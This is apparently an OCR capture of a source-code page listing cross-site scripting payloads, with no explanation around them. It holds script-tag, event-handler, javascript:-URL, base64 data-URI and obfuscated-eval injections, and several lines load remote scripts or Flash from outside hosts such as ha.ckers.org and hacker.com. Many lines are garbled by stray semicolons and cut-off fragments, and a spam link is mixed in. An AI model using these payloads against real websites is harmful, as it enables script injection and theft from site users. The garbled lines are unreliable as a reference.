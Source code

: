 <;DIV STYLE=";background-image: url(javascript:alert(';XSS';))";>;
<script =">" SRC="http://www.securitycompass.com/xss.js"></script>
24) http://www.google<script .com>alert(document.location)</script
16) <input type="text" value=``<div/onmouseover='alert(1)'>X</div>
<style></script>
<script>alert(1337)</script><marquee><h1>XSS by xss</h1></marquee>
<input type="image" dynsrc="javascript:document.vulnerable=true;">
<EMBED SRC="http://hacker.com/xss.swf" AllowScriptAccess="always">
<OBJECT TYPE="text/x-scriptlet" DATA="http://hacker.com/xss.html">
<object type=text/html data="javascript:alert(([code]);"></object>
with(RegExp)an:alert(true,'ly is possible');too:!!!1,('of course')
{µ=String.fromCharCode;eval('alert('+µ(91)+'1,2,3,4,5'+µ(93)+')')}
\u50001=/atob('YWxlcnQoJ01lcnJ5IENocmlzdG1hcyBoYWNrZXJzIScp')/[-1]
<;SCRIPT a=";>';>"; SRC=";http://ha.ckers.org/xss.js";>;<;/SCRIPT>;
<A HREF="http://%77%77%77%2E%67%6F%6F%67%6C%65%2E%63%6F%6D">XSS</A>
<a href=java&#1&#2&#3&#4&#5&#6&#7&#8&#11&#12script:alert(1)>XXX</a>
<><this/><is/><valid/><javascript/></>..*.*.*..text(alert('Hehe'));
<link REL="stylesheet" HREF="javascript:document.vulnerable=true;">
<script a=">" SRC="http://www.securitycompass.com/xss.js"></script>
<script a=`>` SRC="http://www.securitycompass.com/xss.js"></script>
<style type="text/javascript">document.write("XSS-XSS-XSS");</style>
48) <a/href="javascript:&#13; javascript:prompt(1)"><input type="X">
<META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:alert('XSS');">
<;A HREF=";http://www.gohttp://www.google.com/ogle.com/";>;XSS<;/A>;
{var {5:y,2:q,1:z,4:u,3:r,0:w}="velart"}[0][z+w+r+q](r+q+z+u+y)(123)
top['eval'] === top['anything',1,0,false,true,null,undefined,'eval']
[[url=http://brainpillow.cc]y3t an0ther unstarted h0me blog..[/url]]
<;SCRIPT ";a=';>;';"; SRC=";http://ha.ckers.org/xss.js";>;<;/SCRIPT>;
17) <meta http-equiv="refresh" content="0;url=javascript:confirm(1)">
typeof typeof typeof typeof typeof typeof typeof typeof undefined(1);
<script "a='>'" SRC="http://www.securitycompass.com/xss.js"></script>
<script a=">'>" SRC="http://www.securitycompass.com/xss.js"></script>
<;FRAMESET>;<;FRAME SRC=";javascript:alert(';XSS';);";>;<;/FRAMESET>;
<script xmlns="http://www.w3.org/1999/xhtml" id="x">alert(1)</script>
/iiiiggggmmmm/iiiiiggggmmmm/ /iiiiiggggmmmmmmm/iiiiiggggmmmm/alert(1) 
æ:with(/æ/)õ:'æ';Þ:!0e1,alert(/Ð/);throw'å',(1in Þ),'æ';ã:'å'+(æ=1);-ã
eval(String(/\x61\x6c\x65\x72\x74\x28\x31\x29/.exec(/zzzzalert(1)/)));
location=XML(<x>java{[]}script:ale{[]}rt(/I am a e4x haxor/)</x>).*::*
<script a=">" '' SRC="http://www.securitycompass.com/xss.js"></script>
38) <img/src='http://i.imgur.com/P8mL8.jpg' onmouseover=&Tab;prompt(1)
23) <meta http-equiv="refresh" content="0;javascript&colon;alert(1)"/>​
<div style="list-style:url(http://foo.f)\20url(javascript:alert(1));">X
<svg xmlns="http://www.w3.org/2000/svg"><script>alert(1)</script></svg>
<image src="http://somedomain/somegraphic.jpg" onload="alert(/XSS/)" />
try{c=/wtf/[-5]+'rt(/#/[-2])',a}catch(b){b.eval(c.replace(/[fs]/g,''))}
a:;{;1*(1/(this.window.top[(('')+("alert")+(''))])(/1/.source)+1)-1;}; 
http://www.simpatie.ro/index.php?page=top_movies&cat=13&p=2 p=2 ??XSS??
<iframe/src=data:text/html;base64,PHNjcmlwdD5hbGVydCgwKTwvc2NyaXB0Pg==>
<input type="image" dynsrc="javascript:document.write("XSS-XSS-XSS");">
<FRAMESET><FRAME SRC="javascript:document.vulnerable=true;"></frameset>
<A HREF="javascript:document.location='http://www.google.com/'">XSS</A>
<;DIV STYLE=";background-image: url(&;#1;javascript:alert(';XSS';))";>;
perl -e ';print ";&;<;SCR\0IPT>;alert(";XSS";)<;/SCR\0IPT>;";;'; >; out
<script>alert("XSS by \n1")</script><marquee><h1>XSS by 1</h1></marquee>
<form id="test" /><button form="test" formaction="javascript:alert(1)">X
<embed src="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">
<?xml-stylesheet type="text/css"?><root style="x:expression(write(1))"/>
<link rel="stylesheet" href="javascript:document.write("XSS-XSS-XSS");">
\'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT><img src="" alt=
